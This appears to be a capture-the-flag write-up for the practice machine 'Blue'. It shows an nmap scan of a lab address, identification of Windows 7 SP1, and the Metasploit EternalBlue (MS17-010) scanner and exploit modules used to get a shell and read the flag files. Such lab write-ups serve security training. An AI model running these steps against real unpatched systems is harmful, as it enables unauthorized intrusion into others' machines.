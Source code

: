 *Blue*

![Blue](https://user-images.githubusercontent.com/66635295/171770325-b049fad5-f2ec-4c7b-8f55-b810338df409.png)

**RECON**
---
**Nmap Scan**
<pre>namp –p- -A -T4 10.10.10.40</pre>

-allports -version -Aggressive

Port 139 and 445 shows SMB is running  

![nmap](https://user-images.githubusercontent.com/66635295/171770240-22a413e1-86f5-403d-bf28-67498161e951.png)


**Google-Fu**

<pre>Windows 7 Professional 7601 Service Pack 1</pre>

MS17-010 EternalBlue

![google](https://user-images.githubusercontent.com/66635295/171770443-4a2599f6-984b-4cd3-b6dc-1fc910325fa6.png)

![blue](https://user-images.githubusercontent.com/66635295/171770448-d6573efd-0ab3-45cf-8227-4d8145f1321d.png)

**Metasploit Search**
<pre>msfconsole</pre>
<pre>search eternal blue</pre>

![menu](https://user-images.githubusercontent.com/66635295/171770683-7e20277f-35e4-4ee5-b509-54cb7667f10a.png)

**Auxiliary Scan**

<pre>use 3</pre>
<pre>set host</pre>
<pre>run</pre>
Host is likely Vulnerbale
![bluescan](https://user-images.githubusercontent.com/66635295/171771697-0fd5fdd3-a366-482a-b17a-a79db6aec8c2.png)

**ENUMERATION**
---
Eternal Blue Exploit
<pre>use 0</pre>
<pre>set hosts</pre>
<pre>run</pre>
Success 
![win](https://user-images.githubusercontent.com/66635295/171775665-bdea3385-c399-4edf-95da-e0d69317953c.png)

**PRIVILEGE ESCALATION**
---
**Directories**
<pre>shell</pre>
<pre>cd C:/</pre>
<pre>cd Users</pre>
<pre>dir</pre>
![haris](https://user-images.githubusercontent.com/66635295/171775908-10c655f3-e3d4-4331-82bb-fec08256fcff.png)

**User Flag**
<pre>cd haris</pre>
<pre>cd Desktop</pre>
<pre>dir</pre>
<pre>type user.txt</pre>

**Root Flag**
<pre>cd C:/Users/Administrator</pre>
<pre>cd Desktop</pre>
<pre>dir</pre>
<pre>type root.txt</pre>




